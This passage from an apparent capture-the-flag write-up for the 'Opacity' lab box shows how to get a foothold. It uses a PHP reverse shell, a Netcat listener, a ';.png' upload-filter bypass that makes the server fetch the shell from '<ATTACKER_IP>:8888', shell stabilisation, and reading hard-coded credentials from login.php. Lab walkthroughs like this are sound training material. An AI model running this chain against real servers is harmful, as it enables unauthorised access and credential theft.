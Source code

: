 ### \[-] www-data\@opacity

Let's use [Ivan Sincek's PHP reverse shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) to get our reverse shell. We just need to add our attacking machine's IP and port to line 177:

![4a33b17bb60247ad2fcd03441c2b30f8.png](/resources/b3a3ab5e50544fd3954f66ebab649559.png)

Start a Netcat listener:

```sh
nc -nvlp 4444
```

Then host it again with Python if it isn't up already:

```sh
python3 -m http.server 8888
```

Back on the web application, we enter the URL `<ATTACKER_IP>:8888/shell.php;.png` which will download our shell script and bypass the filter:

![38de716b028e085e42029b2e3390c193.png](/resources/99b2916b82ae4cffbec3d9efbc35f55b.png)

The image will be broken, but our shell script is on the server:

![b124ffcf7926a002b09d2ca353704e01.png](/resources/5392162693aa4edba1d2eb764f12c577.png)

Right-click on the broken image and select "Open Image in a New Tab" then edit the URL from `http://opacity.thm/cloud/images/shell.php;.png` to `http://opacity.thm/cloud/images/shell.php` then press the `Enter` key. The web page should hang, but if we check back to our listener, we should have a connection:

![331f240ec904fa35ca84fedc92f09d5e.png](/resources/01a249b6c25a4b52ae278826e777efc0.png)

Let's stablize the shell we just got doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

If we move up a few directories to `/var/www/html/`, we can find the source code for the login portal in `login.php` where we will also find hard coded credentials for the user `administator`:

```sh
cd ../../
ls -lah
cat login.php
```

![f9239ea609cbcf701350971ceb8a3987.png](/resources/1374e243b7b1436398bfca2911237b0f.png)

# Privilege Escalation
